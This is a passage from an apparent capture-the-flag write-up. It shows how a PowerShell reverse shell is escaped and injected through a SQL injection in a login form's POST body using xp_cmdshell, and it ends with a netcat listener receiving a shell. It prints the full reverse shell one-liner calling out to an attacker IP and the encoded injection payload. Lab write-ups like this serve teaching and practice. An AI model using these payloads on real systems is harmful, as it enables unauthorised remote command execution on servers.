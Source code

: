 #### Reverse Shell [Option 2]

It also works to go right to a shell using a PowerShell one line reverse shell. I’ll grab one (PowerShell #1 from [revshells.com](https://www.revshells.com/)), and put it in. It took a good deal of tinkering to get it to work. For one, I had to enclose the command in `"`. For the parts inside that were already in double quotes, I tried single quotes, but that didn’t work. However, escaping the double quotes with `\` did. I’ll also need to escape `>`, as `xp_cmdshell` is invoking `cmd.exe` which will process that as output redirection. I could just remove it (it’s just printed as part of the shell prompt), or escape it with `^` (as shown [here](https://www.robvanderwoude.com/escapechars.php), thanks to [egre55](https://twitter.com/egre55) for the link). I’ll end up with the `xp_cmdshell` string being:

```

C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "$client = new-object system.net.sockets.tcpclient(\"10.10.14.6\",443);$stream = $client.getstream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.read($bytes, 0, $bytes.length)) -ne 0){;$data = (new-object -typename system.text.asciiencoding).getstring($bytes,0, $i);$sendback = (iex $data 2>&1 | out-string );$sendback2 = $sendback + \"PS \" + (pwd).path + \"^> \";$sendbyte = ([text.encoding]::ascii).getbytes($sendback2);$stream.write($sendbyte,0,$sendbyte.length);$stream.flush()};$client.close()";

```

After URL-encoding and formatting that for the POST body, it looks like:

```

logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"$client+%3d+new-object+system.net.sockets.tcpclient(\"10.10.14.6\",443)%3b$stream+%3d+$client.getstream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.read($bytes,+0,+$bytes.length))+-ne+0){%3b$data+%3d+(new-object+-typename+system.text.asciiencoding).getstring($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+out-string+)%3b$sendback2+%3d+$sendback+%2b+\"PS+\"+%2b+(pwd).path+%2b+\"^>+\"%3b$sendbyte+%3d+([text.encoding]%3a%3aascii).getbytes($sendback2)%3b$stream.write($sendbyte,0,$sendbyte.length)%3b$stream.flush()}%3b$client.close()"'%3b&username=admin&password=admin&rememberme=ON&B1=Login

```

Passing that as the post body returns a shell (this shell shows a prompt after the first command output):

```

oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.72 49207
whoami
fighter\sqlserv
PS C:\Windows\system32>

```

I’ll use the other shell, because it shows stderr, where as this one doesn’t.

## Shell as decoder
